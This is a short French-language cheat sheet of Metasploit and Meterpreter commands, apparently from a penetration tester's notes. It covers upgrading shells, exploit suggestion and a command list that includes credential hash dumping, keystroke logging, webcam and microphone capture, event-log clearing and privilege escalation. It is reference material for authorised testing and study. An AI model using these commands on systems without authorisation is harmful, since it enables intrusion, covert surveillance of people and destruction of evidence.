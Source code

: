 # Metasploit

Quelques commandes utiles

## URLs

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

## Suggester
```
use post/multi/recon/local_exploit_suggester
```

## Shell 2 meterpreter
```
search shell_to_meterpreter
use 0
```
Ensuite on choisi la session que l'on souhaite faire évoluée

```
sessions
set session X
```
Où "X" est le numéro de session. Ensuite on `run`.

## Hashdump

```
search hashdump
```
## Commandes


### Core commands
```
background      : Backgrounds the current session
exit            : Terminate the Meterpreter session
guid            : Get the session GUID (Globally Unique Identifier)
help            : Displays the help menu
info            : Displays information about a Post module
irb             : Opens an interactive Ruby shell on the current session
load            : Loads one or more Meterpreter extensions
migrate         : Allows you to migrate Meterpreter to another process
run             : Executes a Meterpreter script or Post module
sessions        : Quickly switch to another session
```
### File system commands
```
cd              : Will change directory
ls              : Will list files in the current directory (dir will also work)
pwd             : Prints the current working directory
edit            : will allow you to edit a file
cat             : Will show the contents of a file to the screen
rm              : Will delete the specified file
search          : Will search for files
upload          : Will upload a file or directory
download        : Will download a file or directory
```
### Networking commands
```
arp             : Displays the host ARP (Address Resolution Protocol) cache
ifconfig        : Displays network interfaces available on the target system
netstat         : Displays the network connections
portfwd         : Forwards a local port to a remote service
route           : Allows you to view and modify the routing table
```
### System commands
```
clearev         : Clears the event logs
execute         : Executes a command
getpid          : Shows the current process identifier
getuid          : Shows the user that Meterpreter is running as
kill            : Terminates a process
pkill           : Terminates processes by name
ps              : Lists running processes
reboot          : Reboots the remote computer
shell           : Drops into a system command shell
shutdown        : Shuts down the remote computer
sysinfo         : Gets information about the remote system, such as OS
```
### Others Commands (these will be listed under different menu categories in the help menu)
```
idletime        : Returns the number of seconds the remote user has been idle
keyscan_dump    : Dumps the keystroke buffer
keyscan_start   : Starts capturing keystrokes
keyscan_stop    : Stops capturing keystrokes
screenshare     : Allows you to watch the remote user's desktop in real time
screenshot      : Grabs a screenshot of the interactive desktop
record_mic      : Records audio from the default microphone for X seconds
webcam_chat     : Starts a video chat
webcam_list     : Lists webcams
webcam_snap     : Takes a snapshot from the specified webcam
webcam_stream   : Plays a video stream from the specified webcam
getsystem       : Attempts to elevate your privilege to that of local system
hashdump        : Dumps the contents of the SAM database

```
